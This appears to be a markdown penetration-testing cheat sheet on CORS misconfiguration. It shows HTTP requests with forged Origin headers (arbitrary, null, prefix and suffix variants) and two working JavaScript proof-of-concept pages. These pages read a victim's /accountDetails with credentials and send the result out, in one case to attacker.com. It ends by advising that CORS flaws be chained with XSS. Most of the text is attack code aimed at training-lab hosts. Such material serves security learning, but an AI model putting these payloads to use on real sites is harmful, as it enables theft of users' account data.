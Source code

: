 ### Testing for CORS vulnerability
1. Change Origin Header to arbitrary domain.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: http://example.com to Origin: https://malicious.com
```
If it response with this, that means the website is vulnerable to CORS.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious.com
Access-Control-Allow-Credentials: true
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
2. Change Origin Header to null.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```
**Demo Payload For Null Case**
```javascript
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://ac371f531f693ef3c07b84de00630017.web-security-academy.net'

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://attacker.com/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```
3. Change the origin header to one that begins with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicious.com
```
4. Change the origin header to one that ends with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious.vulnerable-website.com
```
Note: If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application. So, if you find a CORS vulnerability, try to bind it with XSS attack.

```
